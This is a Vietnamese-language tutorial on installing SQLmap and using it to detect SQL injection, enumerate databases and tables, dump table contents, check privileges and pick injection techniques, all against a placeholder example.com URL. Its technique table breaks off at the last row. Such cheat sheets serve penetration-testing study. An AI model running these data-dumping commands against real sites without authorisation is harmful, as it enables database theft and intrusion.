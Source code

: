 ## SQLmap

### Cài đặt SQLmap
Nếu bạn đang sử dụng Kali Linux, SQLmap thường được cài sẵn.

Cài đặt thủ công: 
```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap
cd sqlmap
```

### Các lệnh cơ bản của SQLmap
- Quét mục tiêu:

```bash
sqlmap -u "http://example.com/index.php?id=1"
```
    
    - -u: Chỉ định URL mục tiêu.
    - Mục tiêu ở đây là URL chứa tham số khả nghi (vd: id=1).

- Tự động dò tìm kiểu tấn công:

```bash
sqlmap -u "http://example.com/index.php?id=1" --dbs
```

    `--dbs`: Liệt kê các cơ sở dữ liệu trên máy chủ.

- Chọn cơ sở dữ liệu và xem bảng:

```bash
sqlmap -u "http://example.com/index.php?id=1" -D database_name --tables
```

    -D database_name: Chọn cơ sở dữ liệu.

    --tables: Liệt kê các bảng.

- Truy xuất dữ liệu từ bảng:

```bash
sqlmap -u "http://example.com/index.php?id=1" -D database_name -T table_name --dump
```

    -T table_name: Chọn bảng.

    --dump: Tải toàn bộ dữ liệu từ bảng.

- Kiểm tra và khai thác quyền admin:

```bash
sqlmap -u "http://example.com/index.php?id=1" --privileges
```

    --privileges: Hiển thị quyền hạn của user cơ sở dữ liệu.

### Một số tùy chọn nâng cao

- Dùng cookie: Nếu trang web yêu cầu xác thực qua cookie.

```bash
sqlmap -u "http://example.com/index.php?id=1" --cookie="PHPSESSID=abcd1234"
```

- Chạy POST request:
```bash
sqlmap -u "http://example.com/index.php" --data="id=1&name=test"
```

- Chọn payload cụ thể:
```bash
sqlmap -u "http://example.com/index.php?id=1" --technique=U
```

    --technique=U: Chỉ thử khai thác UNION-based SQLi.
    Các giá trị có thể là B, E, T, U, S, Q.

Kí hiệu | Loại | Mô tả
--|--------------------|---------
B |	Boolean-based Blind	| Tấn công SQLi mù dựa trên đánh giá đúng/sai của câu truy vấn SQL (thông qua phản hồi).
E |	Error-based |	Dựa trên lỗi trả về từ máy chủ để lấy dữ liệu (các thông báo lỗi SQL).
T |	Time-based Blind |	Tấn công SQLi mù dựa trên thời gian trễ khi thực thi truy vấn SQL.
U |	Union Query-based |	Sử dụng mệnh đề UNION SELECT để hợp nhất kết quả từ nhiều truy vấn SQL.
S |	Stacked Queries |	Gửi nhiều truy vấn SQL trong một câu lệnh (thường cần máy chủ hỗ trợ).
Q |	Out-of-Band (OOB)















